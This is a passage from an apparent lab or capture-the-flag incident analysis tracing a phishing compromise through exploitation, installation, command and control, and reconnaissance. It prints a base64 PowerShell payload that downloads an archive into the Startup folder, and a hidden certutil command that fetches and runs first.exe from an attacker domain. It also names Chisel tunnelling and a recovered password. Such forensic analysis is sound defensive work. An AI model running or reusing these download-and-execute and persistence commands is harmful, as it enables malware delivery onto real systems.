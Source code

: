 
## 4. Exploitation

The victim opened the document, triggering the execution of a base64-encoded command.

- **Microsoft Word PID**: 496
- **Base64 Encoded Payload**: 
    ```
    JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==
    ```
This payload downloaded and executed the second-stage payload (`first.exe`).

---

## 5. Installation

The malicious binary (`first.exe`) was downloaded and installed on the system.

- **Downloaded Payload**: `first.exe`
- **Downloaded From**: `http://phishteam.xyz/02dcf07/first.exe`
- **Installed At**: `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

---

## 6. Command and Control (C2)

A C2 connection was established, allowing the attacker to remotely control the system.

- **Malicious Domain**: `resolvecyber.xyz`
- **C2 Port**: 80
- **C2 Communication Command**:
    ```
    C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
    ```
- **C2 Binary Hash**: `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451`
- **C2 Tool**: Chisel – reverse SOCKS proxy used to tunnel traffic through the compromised machine.

---

## 7. Actions on Objectives

The attacker performed internal reconnaissance, privilege escalation, and established persistence on the compromised system.

### Internal Reconnaissance
- Discovered a file containing the password `infernotempest`.
- Enumerated listening ports, discovering port 5985 for remote shell access.
